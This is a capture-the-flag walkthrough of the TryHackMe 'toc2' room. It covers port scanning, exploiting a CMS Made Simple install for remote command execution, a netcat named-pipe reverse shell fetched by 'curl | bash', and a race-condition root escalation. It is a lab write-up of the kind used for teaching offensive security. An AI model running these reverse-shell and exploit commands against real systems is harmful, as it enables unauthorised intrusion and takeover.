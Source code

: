 # 55 - toc2 (race condition exploitation)

Room Link --> [https://tryhackme.com/dashboard](https://tryhackme.com/dashboard)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ nmap -Pn -n -v 10.10.136.233 -p- -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

On the website main page, there is a note:

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cmsmsuser:devpass`  - the dev left his credentials there.

The `robots.txt` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Searched online for an exploit and got [this](https://www.exploit-db.com/exploits/44192)

#### Exploitation

Proceed as stated in the exploit POC, when we get to step 4, we intercept the traffic with burpsuite and modify the `timezone` parameter.

The dbmane is also on the `robots.txt` page.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And done, we goto the path:

`http://10.10.136.233/cmsms/config.php?cmd=id;uname` - we have RCE.



<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Getting reverse shell, i used

‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f’, save it in a \`shell.sh\` file, then \`curl [http://10.18.88.214/shell.sh](http://10.18.88.214/shell.sh) | bash\` on the cmd paprameter.

<figure><img src=".gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Frank

There is a `new_machine.txt` file in Frank home directory. It contained a password, so i tried it for Frank and it worked.

### Priv Esc to Root

There is a `readcreds.c` file that seems to be vulnerable to `Race Condition` attack.

{% code overflow="wrap" lineNumbers="true" %}
```c
frank@toc:~/root_access$ ./readcreds readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);
}
```
{% endcode %}

WATCH this video if you are not familiar with race conditions

[https://www.youtube.com/watch?v=5g137gsB9Wk](https://www.youtube.com/watch?v=5g137gsB9Wk)

Download the `rename.c`  binary used for the exploitation: https://github.com/sroettger/35c3ctf\_chals/blob/master/logrotate/exploit/rename.c

You’ll need to compile this C file first.

Create a blank file to use as one of these two arguments. I just `touch asd` , and execute it with `root_password_backup` as an argument `./rename root_password_backup asd` _._ You will see the terminal hang… this is normal.

We can now ssh as Frank in another terminal or background the process. let’s try to run the _readcreds_ binary with our file we want to read. At first we may not be able to open, but keep pounding up and enter until eventually we hit our permissions and cat the file.

<figure><img src=".gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

`su root`&#x20;

Done!


